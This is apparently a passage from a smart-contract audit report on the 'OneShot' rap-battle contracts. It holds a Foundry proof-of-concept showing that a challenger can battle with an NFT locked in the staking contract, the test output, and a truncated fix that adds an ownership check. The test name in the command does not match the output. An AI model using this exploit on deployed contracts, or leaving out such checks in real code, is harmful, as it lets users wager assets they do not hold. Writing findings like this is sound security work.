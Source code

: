 ```javascript
        cred.approve(address(rapBattle), credBet);
        rapBattle.goOnStageOrBattle(0, credBet);
        vm.stopPrank();

        // challenger mints with ID = 1, stakes it for 4 days, unstakes it for rewards
        // then stakes it again, and battles with it while techically not having it
        vm.startPrank(challenger2);
        oneShot.mintRapper();
        oneShot.approve(address(streets), 1);
        streets.stake(1);
        vm.warp(8 days + 6); // with this, defender wins if run on anvil local chain
        streets.unstake(1);
        oneShot.approve(address(streets), 1);
        streets.stake(1);
        assert(cred.balanceOf(challenger2) == 4); // has 4 cred
        assert(oneShot.ownerOf(1) != challenger2); // technically, it is locked in the streets contract
        cred.approve(address(rapBattle), credBet);
        vm.recordLogs();
        rapBattle.goOnStageOrBattle(0, credBet);
        vm.stopPrank();

        Vm.Log[] memory entries = vm.getRecordedLogs();
        address winner = address(uint160(uint256(entries[0].topics[2])));
        assertEq(winner, defender);
        console.log("Winner round 2: ", winner);
        assert(cred.balanceOf(defender) == defenderInitialBalance + credBet); // defender lost 2 cred
        assert(cred.balanceOf(challenger2) == defenderInitialBalance - credBet); // challenger2 won 2 cred but di
    }
```

and test it by executing `forge test --mt test_challengerCanBattleWithoutHavingAnNft`. 

Output:

```Running 2 tests for test/OneShotTest.t.sol:RapBattleTest
[PASS] test_challengerCanBattleWithoutNft() (gas: 715298)
Logs:
  Winner round 2:  0x4fAD2c378d74800f0Be9eAbE53e1236dE790806F
```

## Tools Used
Manual review, Foundry.

## Recommendations
Before starting the battle, check whether the challenger actually has the NFT belonging to the ID he submitted to the battle:

```diff
    function goOnStageOrBattle(uint256 _tokenId, uint256 _credBet) external {
        if (defender == address(0)) {
            defender = msg.sender;
            defenderBet = _credBet;
            defenderTokenId = _tokenId;

            emit OnStage(msg.sender, _tokenId, _credBet);

            oneShotNft.transferFrom(msg.sender, address(this), _tokenId);
            credToken.transferFrom(msg.sender, address(this), _credBet);
        } else {
            // credToken.transferFrom(msg.sender, address(this), _credBet);
```